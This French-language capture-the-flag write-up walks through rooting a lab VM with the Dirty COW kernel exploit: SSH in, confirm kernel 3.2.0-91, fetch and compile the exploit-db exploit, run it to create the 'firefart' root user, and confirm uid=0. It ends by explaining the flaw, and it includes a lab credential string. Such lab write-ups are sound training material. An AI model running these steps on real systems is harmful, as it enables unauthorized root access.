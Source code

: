 # Dirty COW

On se connecte en ssh a la machine avec les credentials:
```
ssh laurie@<IP>
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

# Version KERNEL
On verifie la version du Kernel
```
uname -a
```

On se rend compte que la version de Kernel (3.2.0-91) est vulnerable a la faille Dirty COW.

Apres quelques recherches sur le net, on tombe sur ce site qui met a disposition un exploit pour Dirty COW.
```
https://www.exploit-db.com/exploits/40839
```

# Exploit
On copie le fichier ```exploit_dirty.c``` dans la VM.
```
scp exploit_dirty.c laurie@<IP>:/home/laurie 
```

On compile
```
gcc -pthread exploit_dirty.c -o dirty -lcrypt
```

On execute
```
./dirty <NEW-PASSWORD>
```

On execute ```su firefart``` avec le <NEW-PASSWORD> choisi.

On verifie l'uid
```
id
```

On se rend compte que nous sommes uid=0. BINGO!!!

On se deplace dans le dossier ```/root``` et avec un ```cat README``` on peut se rendre compte que nous sommes root sur la machine!


# Explication de la faille
La faille Dirty COW touche le noyau Linux a partir de la version 2.6.22 (Septembre 2007) jusqu'a la version 4.4.25 inclus. Elle a ete corrige depuis la version 4.4.26.
Elle exploite les fonctionnalites Copy-On-Write (COW) du noyau, d'ou son nom. C'est par ce biais que le pirate peut atteindre et ecrire sur des espaces memoire qui, normalement, ne sont qu'en lecture seule. 
De cette facon, il est possible de faire une elevation de privileges et devenir root.

Dirty COW a ete decouverte par Phil Oester.

```
Video Youtube
Lien: https://www.youtube.com/watch?v=kEsshExn7aE

Exploit Dirty COW
Lien: https://www.exploit-db.com/exploits/40839
```

